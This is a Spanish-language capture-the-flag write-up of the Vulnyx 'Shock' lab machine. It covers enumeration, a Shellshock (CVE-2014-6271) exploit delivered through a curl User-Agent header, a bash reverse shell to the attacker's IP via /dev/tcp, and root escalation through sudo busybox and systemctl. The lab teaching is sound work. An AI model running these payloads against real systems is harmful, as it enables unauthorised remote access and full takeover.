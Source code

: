 ```yaml
---
layout      : post
title       : "Shock - Vulnyx"
author      : elc4br4
image       : /assets/images/VULNYX/Shock-Vulnyx/Shock.jpg
optimized_image : /assets/images/VULNYX/Shock-Vulnyx/Shock.jpg
category    : [ Vulnyx ]
tags        : [ Linux ]
description : 👻En esta ocasión romperemos una máquina Linux de nivel easy de la nueva plataforma Vulnyx. Explotaremos la vulnerabilidad Shellshock y escalaremos usando dos binarios👻.
---
```


👻Estamos ante una máquina Linux Easy de la nueva plataforma VulNyx en la que tenemos máquinas basadas en UNIX con diferentes niveles de dificultad para aprender y practicar las habilidades de Ciberseguridad👻.

***
**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Explotación](#explotación).
4. [Escalada de Privilegios](#privesc). 
    
***

# Reconocimiento [#](reconocimiento) {#reconocimiento}

Como en todo CTF comenzamos enumerando puertos en la máquina víctima, esto lo hacemos usando nmap, aunque esta vez voy a usar la herramienta rustscan.

Lanzo la herramienta con el rango de puertos del 1 al 65535 para que escanee todos los puertos existentes.

![](/assets/images/VULNYX/Shock-Vulnyx/rustcan.webp)

Como podemos ver tenemos dos puertos abiertos, el puerto 22 y el puerto 80.

Si lanzamos un escaneo un poco más avanzado para descubrir qué servicios corren en cada puerto podremos ver lo siguiente.

```r
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:36:60:3e:26:ae:23:3f:e1:8b:5d:18:e7:a7:c7:ce (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSRcer8jyQvBQLNodMY/8sZbjcip1NPmoJkdQZV/Ngm/cXzaUR06OCNKyJM8Blve6Pi86npcZPIs5iuowUH2eTDGRPoH9EbJCbeDRrGyy+CTrdLci3VEmFV8K0rhoYA3nzCPR59CKVdW58OIEMZoJiTzX/I/dH9Mp1XLSLghkirI2YiGJBUhxLyc+03LOTAu/kHC7F1d10/XQjmuspHkfX2PvJsIhzoaKXyo2+CFZNuWkY0/gs+FN9KPdtkMnyv9/+fGn06cYBu/dw7OE9OOcdl2jZUXVT/bEfjK1nNmjp3dAKqOO3iVpciGjCFBgQWvkjakOEpvfd2wAYQHOe9pL7
|   256 34:9a:57:60:7d:66:70:d5:b5:ff:47:96:e0:36:23:75 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP/FWnKmPLA1LACd7NDtXVGKDHXYkZmtzC8zhOGcpSD6nnbvhdo4CU4ZoLMAPQfc2Ww6qNCKY9LkmeegGyZBeoM=
|   256 ae:7d:ee:fe:1d:bc:99:4d:54:45:3d:61:16:f8:6c:87 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2ClztzZ1xvNlcuG7c24bOcE/UKY3EBFH8Edpcy03vw
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Puerto | Servicio | Versión |
| ------ | -------- | ------- |
| 22     | SSH      | OpenSSH 7.9p1 Debian |
| 80     | HTTP     | Apache httpd 2.4.38 |

Tras ver que tenemos solo estos dos puertos abiertos procedo a enumerar un poco el servidor web Apache.

Accedo con el navegador para ver que encontramos de primeras y echar una pequeña ojeada inicial.

![](/assets/images/VULNYX/Shock-Vulnyx/web1.webp)

Aparente no hay nada de interés, en el código fuente tampoco, por lo que me pongo a fuzzear para buscar rutas o archivos en el servidor.

Para ello usaré la herramienta gobuster, aunque existen muchas más con las que se puede realizar el fuzzing.

![](/assets/images/VULNYX/Shock-Vulnyx/fuzzing1.webp)

Podemos ver que existe el directorio cgi-bin, y eso me hace pensar que podríamos estar ante la vulnerabilidad ShellShock, y viendo el nombre de la máquina... es lo más probable.

Sigo fuzzeando desde la ruta /cgi-bin para descubrir más directorios o archivos dentro de la misma.

Los archivos susceptibles a un ataque Shellshock son los que comúnmente pertenezcan a alguna de las siguientes extensiones, tales como cgi y sh.

Tras fuzzear encuentro un archivo llamado `shell.sh` lo que ya me va haciendo confirmar que es muy probable que estemos ante ShellShock.

![](/assets/images/VULNYX/Shock-Vulnyx/fuzzing2.webp)

Pero antes nada primero vamos a ver que es ShellShock y en que consiste.

## ¿Qué es la vulnerabilidad ShellShock y en qué consiste?

ShellShock es una vulnerabilidad asociada al CVE-2014-6271 que afecta a la shell de Linux "bash" hasta la versión 4.3.
A través de esta vulnerabilidad podemos ejecutar comandos de forma remota.

Se origina porque bash permite declarar funciones, pero no se validan de forma correcta cuando se almacenan en una variable.

# Explotación [#](explotación) {#explotación}

Ahora que ya sabemos más o menos que es esta vulnerabilidad y como se origina, toca explotarla.

Primero vamos a verificar que de verdad estamos ante ShellShock y es vulnerable al mismo.

```bash
curl -H ‘User-Agent: () { :;}; echo; echo ¿Vulnerable a ShellShock?’ ‘http://192.168.0.19/cgi-bin/shell.sh’
```

![](/assets/images/VULNYX/Shock-Vulnyx/shellshock1.webp)

Y como podemos ver ejecuta correctamente el comando `echo ¿Vulnerable a ShellShock?`.

Por lo que el siguiente paso será introducir una reverse shell en bash para intentar ganar acceso a la máquina víctima.

Ponemos netcat en escucha en el puerto 443

`nc -lnvp 443`

Y le metemos una reverse shell bash para ganar acceso.

```bash
curl -H ‘User-Agent: () { :;}; echo; bash -i >& /dev/tcp/192.168.0.30/443 0>&1’ ‘http://192.168.0.19/cgi-bin/shell.sh’
```

Y obtenemos acceso a la máquina como el usuario www-data.

![](/assets/images/VULNYX/Shock-Vulnyx/reverse-shell.webp)

# Escalada de Privilegios [#](privesc) {#privesc}

Tras ganar acceso comienzo a ojear un poco y veo que tenemos el directorio del usuario will, pero no tenemos permisos, por lo que lo primero será intentar migrarnos a este usuario.

# Movimiento Lateral - Usuario will

Ejecuto el comando `sudo -l` para enumerar permisos de sudo y veo que puedo ejecutar el binario busybox como el usuario will sin contraseña.

![](/assets/images/VULNYX/Shock-Vulnyx/busybox.webp)

Y siempre que hablamos de binarios... hablamos de GTFOBINS  

https://gtfobins.github.io/

![](/assets/images/VULNYX/Shock-Vulnyx/busybox-gtfo.webp)

Ejecutamos el siguiente comando:

`sudo -u will /usr/bin/busybox sh`

![](/assets/images/VULNYX/Shock-Vulnyx/will.webp)

Y ya nos hemos migrado al usuario Will y podemos leer la flag user.

El siguiente paso obviamente es escalar privilegios para convertirnos en root.

# Escalada de Privilegios

Para escalar privilegios de nuevo vuelvo a ejecutar el comando `sudo -l` para enumerar permisos sudo y veo que puedo ejecutar el binario systemctl como root sin contraseña.

Por lo que este paso es igual que el anterior, nos dirigimos a gtfobins.

![](/assets/images/VULNYX/Shock-Vulnyx/systemctl-gtfobins.webp)

![](/assets/images/VULNYX/Shock-Vulnyx/systemctl.webp)

Ejecutamos lo siguiente:

```bash
sudo /usr/bin/systemctl
!sh
```

![](/assets/images/VULNYX/Shock-Vulnyx/root.webp)

Y ya somos root.








